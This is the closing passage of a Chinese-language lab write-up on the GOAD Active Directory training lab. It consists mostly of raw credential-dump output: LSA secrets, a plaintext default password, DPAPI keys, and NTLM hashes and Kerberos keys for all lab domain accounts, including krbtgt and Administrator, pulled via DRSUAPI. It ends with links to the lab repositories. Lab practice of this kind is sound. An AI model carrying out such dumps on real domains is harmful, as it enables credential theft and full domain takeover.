NORTH\WINTERFELL$:aes128-cts-hmac-sha1-96:23b19c152d6b8c3aa275b16b082675ed
NORTH\WINTERFELL$:des-cbc-md5:70ab6e5d08eca81c
NORTH\WINTERFELL$:plain_password_hex:d452d7acbee89340ffd08a60348d69f58cf4183c4cf361f8dfca34938ebb435e77372871f8268d42ad52cd99492e8b7a73e131d386300378032c818fc3a48089ff79a5fd4a3fd34ae3bf2cd15427b853bef44a2e8e9b2bcf9ceabba4f99d9da6f2b5e2e9558517c5bd6a0ab0a1c42ad05a084b97fee2f3efb40b484a68c242dfed0f174bfca7859e888bc99915fc126489cafd27fcea31987b9edae98a8d7c2748d3105e09e75ae1807da54eb2932ba1f6fe74304ee811d274a8d64f3e61e1b3ca03956f334ceae55b551fb1807d03700d9165818942726d1477a8478a797ca1b29f5ebfccdea59253878e7ad2d3e26a
NORTH\WINTERFELL$:aad3b435b51404eeaad3b435b51404ee:aa685d65871bfdf122009745b03f8e01:::
[*] DefaultPassword
NORTH\robb.stark:sexywolfy
[*] DPAPI_SYSTEM
dpapi_machinekey:0x6c83b7e5a495bf35a524aeff74c92593143c17a0
dpapi_userkey:0x334f998763f721c1dd63a9ebde90054970e54c06
[*] NL$KM
 0000   22 34 01 76 01 70 30 93  88 A7 6B B2 87 43 59 69   "4.v.p0...k..CYi
 0010   0E 41 BD 22 0A 0C CC 23  3A 5B B6 74 CB 90 D6 35   .A."...#:[.t...5
 0020   14 CA D8 45 4A F0 DB 72  D5 CF 3B A1 ED 7F 3A 98   ...EJ..r..;...:.
 0030   CD 4D D6 36 6A 35 24 2D  A0 EB 0F 8E 3F 52 81 C9   .M.6j5$-....?R..
NL$KM:223401760170309388a76bb2874359690e41bd220a0ccc233a5bb674cb90d63514cad8454af0db72d5cf3ba1ed7f3a98cd4dd6366a35242da0eb0f8e3f5281c9
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8bf38852ab8d3a887ae867500c9a48c5:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
arya.stark:1109:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
eddard.stark:1110:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
catelyn.stark:1111:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
robb.stark:1112:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
sansa.stark:1113:aad3b435b51404eeaad3b435b51404ee:2c643546d00054420505a2bf86d77c47:::
brandon.stark:1114:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
rickon.stark:1115:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
hodor:1116:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
jon.snow:1117:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
samwell.tarly:1118:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
jeor.mormont:1119:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
sql_svc:1120:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
pnightmare2:1123:aad3b435b51404eeaad3b435b51404ee:c103cafa49983dbcf3d8a1c951f46347:::
WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:aa685d65871bfdf122009745b03f8e01:::
CASTELBLACK$:1104:aad3b435b51404eeaad3b435b51404ee:723026eda8195b4bd9e82caef809c40f:::
SEVENKINGDOMS$:1121:aad3b435b51404eeaad3b435b51404ee:1b89cf55c349b296a8fc34f95d7580e0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e7aa0f8a649aa96fab5ed9e65438392bfc549cb2695ac4237e97996823619972
Administrator:aes128-cts-hmac-sha1-96:bb7b6aed58a7a395e0e674ac76c28aa0
Administrator:des-cbc-md5:fe58cdcd13a43243
krbtgt:aes256-cts-hmac-sha1-96:82b8cbbbe398df35611657a4fab06f32fedc6a9c0036ae6e0988193de5c30a8c
krbtgt:aes128-cts-hmac-sha1-96:d4a753716a2747b19c1eb09a9e0d4a97
krbtgt:des-cbc-md5:708ad92523fdf7b6
vagrant:aes256-cts-hmac-sha1-96:aa97635c942315178db04791ffa240411c36963b5a5e775e785c6bd21dd11c24
vagrant:aes128-cts-hmac-sha1-96:0d7c6160ffb016857b9af96c44110ab1
vagrant:des-cbc-md5:16dc9e8ad3dfc47f
arya.stark:aes256-cts-hmac-sha1-96:2001e8fb3da02f3be6945b4cce16e6abdd304974615d6feca7d135d4009d4f7d
arya.stark:aes128-cts-hmac-sha1-96:8477cba28e7d7cfe5338d172a23d74df
arya.stark:des-cbc-md5:13525243d6643285
eddard.stark:aes256-cts-hmac-sha1-96:f6b4d01107eb34c0ecb5f07d804fa9959dce6643f8e4688df17623b847ec7fc4
eddard.stark:aes128-cts-hmac-sha1-96:5f9b06a24b90862367ec221a11f92203
eddard.stark:des-cbc-md5:8067f7abecc7d346
catelyn.stark:aes256-cts-hmac-sha1-96:c8302e270b04252251de40b2bd5fba37395b55d5ed9ac95e03213dc739827283
catelyn.stark:aes128-cts-hmac-sha1-96:50ce7e2ad069fa40fb2bc7f5f9643d93
catelyn.stark:des-cbc-md5:6b314670a2f84cfb
robb.stark:aes256-cts-hmac-sha1-96:d7df5069178bbc93fdc34bbbcb8e374fd75c44d6ce51000f24688925cc4d9c2a
robb.stark:aes128-cts-hmac-sha1-96:b2965905e68356d63fedd9904357cc42
robb.stark:des-cbc-md5:c4b62c797f5dd01f
sansa.stark:aes256-cts-hmac-sha1-96:cd2460a78e8993442498d3f242a88ae110ec6556e40c8add6aab12cfb44b3fa1
sansa.stark:aes128-cts-hmac-sha1-96:18b9d10bd18d1956ba73c14426ec519f
sansa.stark:des-cbc-md5:e66445757c31c176
brandon.stark:aes256-cts-hmac-sha1-96:6dd181186b68898376d3236662f8aeb8fa68e4b5880744034d293d18b6753b10
brandon.stark:aes128-cts-hmac-sha1-96:9de3581a163bd056073b71ab23142d73
brandon.stark:des-cbc-md5:76e61fda8a4f5245
rickon.stark:aes256-cts-hmac-sha1-96:79ffda34e5b23584b3bd67c887629815bb9ab8a1952ae9fda15511996587dcda
rickon.stark:aes128-cts-hmac-sha1-96:d4a0669b1eff6caa42f2632ebca8cd8d
rickon.stark:des-cbc-md5:b9ec3b8f2fd9d98a
hodor:aes256-cts-hmac-sha1-96:a33579ec769f3d6477a98e72102a7f8964f09a745c1191a705d8e1c3ab6e4287
hodor:aes128-cts-hmac-sha1-96:929126dcca8c698230b5787e8f5a5b60
hodor:des-cbc-md5:d5764373f2545dfd
jon.snow:aes256-cts-hmac-sha1-96:5a1bc13364e758131f87a1f37d2f1b1fa8aa7a4be10e3fe5a69e80a5c4c408fb
jon.snow:aes128-cts-hmac-sha1-96:d8bc99ccfebe2d6e97d15f147aa50e8b
jon.snow:des-cbc-md5:084358ceb3290d7c
samwell.tarly:aes256-cts-hmac-sha1-96:b66738c4d2391b0602871d0a5cd1f9add8ff6b91dcbb7bc325dc76986496c605
samwell.tarly:aes128-cts-hmac-sha1-96:3943b4ac630b0294d5a4e8b940101fae
samwell.tarly:des-cbc-md5:5efed0e0a45dd951
jeor.mormont:aes256-cts-hmac-sha1-96:be10f893afa35457fcf61ecc40dc032399b7aee77c87bb71dd2fe91411d2bd50
jeor.mormont:aes128-cts-hmac-sha1-96:1b0a98958e19d6092c8e8dc1d25c788b
jeor.mormont:des-cbc-md5:1a68641a3e9bb6ea
sql_svc:aes256-cts-hmac-sha1-96:24d57467625d5510d6acfddf776264db60a40c934fcf518eacd7916936b1d6af
sql_svc:aes128-cts-hmac-sha1-96:01290f5b76c04e39fb2cb58330a22029
sql_svc:des-cbc-md5:8645d5cd402f16c7
pnightmare2:aes256-cts-hmac-sha1-96:f11d545813f97b71278e1d2e9d24b4f2f01d9cf294a1fa1289605a1ad71ebcf7
pnightmare2:aes128-cts-hmac-sha1-96:92a931c1ecfbdf6e1c5fac646dbe9622
pnightmare2:des-cbc-md5:9eba409ef8834589
WINTERFELL$:aes256-cts-hmac-sha1-96:c0880c4af7d14d09402a8138bb48d1b526e1fa5f5fc4ce4f9fe89ef2422eb304
WINTERFELL$:aes128-cts-hmac-sha1-96:23b19c152d6b8c3aa275b16b082675ed
WINTERFELL$:des-cbc-md5:7ff72c75d5d683b5
CASTELBLACK$:aes256-cts-hmac-sha1-96:ac20a1c7051889152b6811094c6e52bd854d347a0e9b52ad63b6ea98794b1423
CASTELBLACK$:aes128-cts-hmac-sha1-96:c1fe9a27470b9bd8e0e9537e4f63b3ae
CASTELBLACK$:des-cbc-md5:fec498bf3eea5ef8
SEVENKINGDOMS$:aes256-cts-hmac-sha1-96:c2ac7ab055d49ba523564eab3bfe041e026ce6745413cb8ea19514771de06080
SEVENKINGDOMS$:aes128-cts-hmac-sha1-96:5796cbf539ac141f8fed3a05892eff12
SEVENKINGDOMS$:des-cbc-md5:92d5bf79fe57158a
[*] Cleaning up...
```

## 参考资料

- [GOAD 实验笔记仓库](https://github.com/N1etzsche0/GOAD)
- [GOAD 官方项目](https://github.com/Orange-Cyberdefense/GOAD)
- [GOAD 搭建参考](https://www.qusec.cn/posts/G0AD/)与 [GOAD 学习参考](https://www.qusec.cn/posts/GOAD/)
